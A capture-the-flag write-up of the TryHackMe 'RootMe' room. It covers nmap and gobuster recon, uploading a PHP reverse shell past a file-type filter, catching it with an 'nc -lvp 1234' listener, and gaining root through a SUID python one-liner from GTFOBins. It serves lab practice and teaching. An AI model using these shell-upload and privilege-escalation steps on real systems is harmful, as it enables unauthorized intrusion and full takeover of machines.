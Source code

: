 # RootMe
> 4lch3my | March 07, 2023
-------------------
#### This is a machine that allows you to practise web app hacking and privilege escalation
#### [Room Link](https://tryhackme.com/room/rrootme)

## Tasks
##### 1. Deploy the machine
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.

##### 2. Reconnaissance

This is where the basics of recon comes into play. To start, I use [nmap] which is default option on the perosnal Kali install I have. We start with a basic command
  `nmap -sC -sV -A MACHINE_IP `
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A outputs in agressive mode, so we can follow along with the commands and enumeration.
  In our NMAP results we get:
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 19:52 CET
Nmap scan report for 10.10.117.20
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```
From this [nmap] scan we can determine that 2 port are open: [SSH] on port 22 and a [http] webserver on port 80. Lets start with the webserver enumeration.
<br>

Gobuster is my go-to enum tool, the setup instructions for it can be found [here]. Let's run a basic scan against our machine: `gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
This might take a while to run, but we can see the outpot below:
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://MACHINE_IP/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/06 19:54:35 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://MACHINE_IP/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://MACHINE_IP/css/]
/js                   (Status: 301) [Size: 309] [--> http://MACHINE_IP/js/]
/panel                (Status: 301) [Size: 312] [--> http://MACHINE_IP/panel/]
Progress: 35498 / 220561 (16.09%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/03/06 19:57:33 Finished
===============================================================
```
We have found multiple directory listings from the [gobuster] search. Let's look at them one by one:
<br>

`/panel` contains an upload form where we can choose a file, and upload it.
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/upload.png?raw=true)
Let's try to upload a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). In the default configuration I have set the `$port` to `1234` and the `$ip` to the IP of our connection IP (this can be seen in the top right corner on the TryHackMe room page in a green bubble). In the mean time, we will open a [netcat] listener with option `-lvp` in a new terminal tab: `nc -lvp 1234`. 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/fail.png?raw=true)

##### 3. Getting a shell

Hmmm, it seems like no PHP files can be uploaded. We can either manually test with other file types (example: .php5, .phtml, .php.html) or we can use [sAjibuu's Upload Bypass](https://github.com/sAjibuu/upload_bypass/) repo to automate the process. If manually uploadign we can visit `MACHINE_IP/uploads/` to see the uplaoded files and if we use the automated process, we see that our [netcat] listener has cought a shell by itself.

```
Listening on [0.0.0.0] (family 0, port 1234)
Connection from MACHINE_IP 45998 received!
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:23:11 up  1:32,  0 users,  load average: 0.05, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Now we finally can start looking for the first flag in `user.txt`.
<br>

First command to is: `find / -type f -name user.txt`. This will look for a `file` containing `user.txt` in the name. And after a quick second ot two, we see our readable file right in the middle:
```
find: '/proc/1671/fd': Permission denied
find: '/proc/1671/map_files': Permission denied
find: '/proc/1671/fdinfo': Permission denied
find: '/proc/1671/ns': Permission denied
/var/www/user.txt
find: '/var/spool/rsyslog': Permission denied
find: '/var/spool/cron/atjobs': Permission denied
find: '/var/spool/cron/crontabs': Permission denied
find: '/var/spool/cron/atspool': Permission denied
```
To get the file contens we can `cat`-it out:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/user.png?raw=true)

##### 3. Privilege escalation

As we are on the machine, we can start looking at some files and permissions what we can abuse. Let's run the `find / -user root -perm /4000` command, to determine if there are any visible for us from the get-go. 
```
find: '/snap/core/8268/var/spool/rsyslog': Permission denied
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/usr/bin/python
find: '/snap/core/9665/etc/chatscripts': Permission denied
```
Now we know that python can be run on this machine and maybe we can use it to escalate our priviledges. We can use [GTFOBins](https://gtfobins.github.io/) to check on this.
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/gtfo.png?raw=true)
<br>

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/gtfo_2.png?raw=true)
Now let's run it against the root user: `python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’`
<br>

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/gtfo_2.png?raw=true)
And there we go, we are `root` ! We can grab the flag now!


#### Thank you for checking out my writeup about the THM room: RootMe! If you are interested in other writeups of mine or interetsed in some of my codeing work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my